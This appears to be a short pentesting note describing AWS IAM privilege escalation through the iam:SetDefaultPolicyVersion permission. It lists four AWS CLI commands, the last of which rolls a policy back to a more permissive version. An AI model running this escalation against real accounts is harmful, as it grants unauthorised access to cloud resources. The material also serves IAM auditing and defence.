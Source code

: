 # IAM Policy Rollback

## Dangerous Permission: iam:SetDefaultPolicyVersion

### iam:SetDefaultPolicyVersion is a potentially dangerous permission that AWS caution about using. A threat actor possessing this permission could potentially increase their access level by leveraging unused versions of existing policies. A threat actor with this permission would be able to switch the default policy to any other versions and potentially escalate their privileges. This is a simple example of direct self-escalation, with the identity being able to modify its own rights, depending on the permissions contained within other policy versions.

### Commands:

#### 1) List directly attached policies on our user

    aws iam list-attached-user-policies --user-name USERNAME 

#### 2) List versions of a specific policy

    aws iam list-policy-versions --policy-arn POLICY_ARN 

#### 3) Get a specific version of our chosen policy

    aws iam get-policy-version --policy-arn POLICY_ARN --version-id vNUM 

#### 4) Here we abuse the dangerous privilege to rollback to our desired policy version to gain further access to AWS resources or do Privilege Escalation

    aws iam set-default-policy-version --policy-arn arn:aws:iam::ACCOUNT_ID:policy/POLICY_NAME --version-id vNUM 





